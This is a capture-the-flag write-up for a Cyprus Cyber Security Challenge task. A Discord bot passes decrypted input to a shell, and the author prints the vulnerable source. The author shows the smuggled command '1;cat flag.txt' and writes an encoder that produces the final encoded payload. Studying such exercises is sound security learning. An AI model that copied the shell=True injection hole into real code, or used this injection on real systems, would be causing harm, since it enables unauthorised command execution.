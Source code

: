 # CCSC2020
## WriteUps for the Cyprus Cyber Security Challenge

![Jaskier Challenge](Jaskier.JPG)

At this challenge, we were 
ded with an automated Discord bot - Jaskier - which had the following functionalities:
!help !frappe !ls !pwd !viewcode <function> !revenc <string>

### !help
```
| Jaskier: |
==============================
!frappe

Return a frappe for you

!ls

Returns the contents of the home directory

!pwd

Returns the current directory

!viewcode <function>
  
Returns the code of the given function. Be careful with that one!
Available functions: decrypt, hmask, h_rotl, blockify, cnt, revenc, pwd, ls, frappe

!revenc <string>
  
Reverses an encrypted string
Example of reversing 'Hello World': !revenc SJVsbG9Ap2+yzGEA|
```
Thus I started playing around with these functions
The result of !ls returned 4 files:
.bashrc
.profile
.bash_logout
flag.txt

The goal became obvious: *Find a way to inject code from the revenc function so that to cat the flag.txt file and get the flag*. 

After gathering all the functions together with the help of the !viewsource function, and reassemblying the parts together I was  able to view the complete source code of the bot:

```python
BLOCK_SIZE = 2
TABLE_DIM = 4

def decrypt(ct):
    dec = [] 
    blocks = blockify(ct, BLOCK_SIZE, b'\x00') 
    for blk in blocks:
        blk_int = int.from_bytes(blk, byteorder='big')
        for n in range(TABLE_DIM, -1, -1):
            a,b = cnt(blk_int, TABLE_DIM, n)
            blk_int = h_rotl(blk_int, a, TABLE_DIM, b)
        dec.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
    return b''.join(dec).strip(b'\x00')
def hmask(size, idx):
    return 2**size-1 << idx*size
#masking: setting size-1 bits on and shift them by idx*size 

def h_rotl(pt, rot, size, idx):
    """
    Horizontal left rotation. 
    """
    m = hmask(size, idx)
    blk = pt & m 
    #turning off idx*size bites from pt
    rot = rot % size
    #modulo
    r = ((blk << rot) | (blk >> (size - rot))) & m
    return pt ^ blk | r

def blockify(inpt, size, pad):
    return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]
    
def cnt(pt, size, idx):
    a,b = 0,0
    pt = pt >> idx * size
    for _ in range(size):
        if pt % 2 == 0: a+=1 
        else: b += 1 
        pt = pt >> 1
    return a,b

def revenc(ctx, params):
    try:
        dec_in = decrypt(base64.b64decode(params)).decode('utf-8')
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
        result = getResult.read()
        await ctx.channel.send(result.decode())
        print(dec_in)
    except Exception as e:
        print(e)
        await ctx.channel.send("Ops, something went wrong..")  
```
This particular line caught my attention, since it was passing the result of the decryption function into a subprosess as a variable {dec_in} via shell (shell = True)! 
```python 
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
```
Therefore all the environment variables and file globs could be accessed if we could inject the payload "1;cat flag.txt". 
By using the semicolon, we escape the brackets {}, and we assign the value 1 to the variable dec_in and we close the first argument. Then we can execute the command cat and extract the data from the flag file and voila, we have the flag.

The problem now is how can we assign these value to the dec_in variable.

Since we can only view the decryption function, we should create an encryption function, which will be encapsulating the string "1;cat flag.txt" to a form that after being decrypted would result to that plaintext in byte-form.

### Reversing the algorithm:

The cipher text was firstly been "blockified" into 4 by 4 blocks and then padded with null characters so that to match the desired size. Then with hmask() the blocks were shifted horizontaly using the parameters a and b. Since the shifting wasn't constant we had to construct an encyption function and take advantage of the existing cnt() function so that to   the value of a and b. 

### The solution:

The only thing left is to reverse the shifting in the h_rotr() function. Thus by providing the plaintext it can encode it using the same process in reverse. Then we encrypt the result in base 64 since at the decryption process is decrypted from base64 to bytes. Here is the complete source code.
```python
import base64
BLOCK_SIZE = 2
TABLE_DIM = 4

def h_rotr(pt, rot, size, idx):
  m = hmask(size, idx)
  blk = pt & m
  rot = rot % size
  r = ((blk >> rot) | (blk << (size - rot)))  & m #We change the shifting to reverse the decryption process
  return pt ^ blk | r

def encrypt(pt):
  enc = []
  blocks = blockify(pt, BLOCK_SIZE, b'\x00')
  for blk in blocks:
      blk_int = int.from_bytes(blk, byteorder='big')
      for n in range(TABLE_DIM):
          a,b = cnt(blk_int, TABLE_DIM, n)
          blk_int = h_rotr(blk_int, a, TABLE_DIM, b)
      enc.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
  print(enc)
  return b''.join(enc)
  
def blockify(inpt, size, pad):
  return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]

def cnt(pt, size, idx):
  a,b = 0,0
  pt = pt >> idx * size
  for _ in range(size):
    if pt % 2 == 0: a+=1 
    else: b += 1 
    pt = pt >> 1
  return a,b

def hmask(size, idx):
  return 2**size-1 << idx*size

s = b'1;cat flag.txt'
print(s)
a = base64.b64encode(encrypt(s))
print(a)
```
We pass the output to the Jaskier bot and we get the flag

*!revenc kWtswbSAZmwxx47U2NQ=*

#### flag: CCSC{w1th_g3r4lt_0f_R1via_al0ng_c4me_th1s_b0t}
***
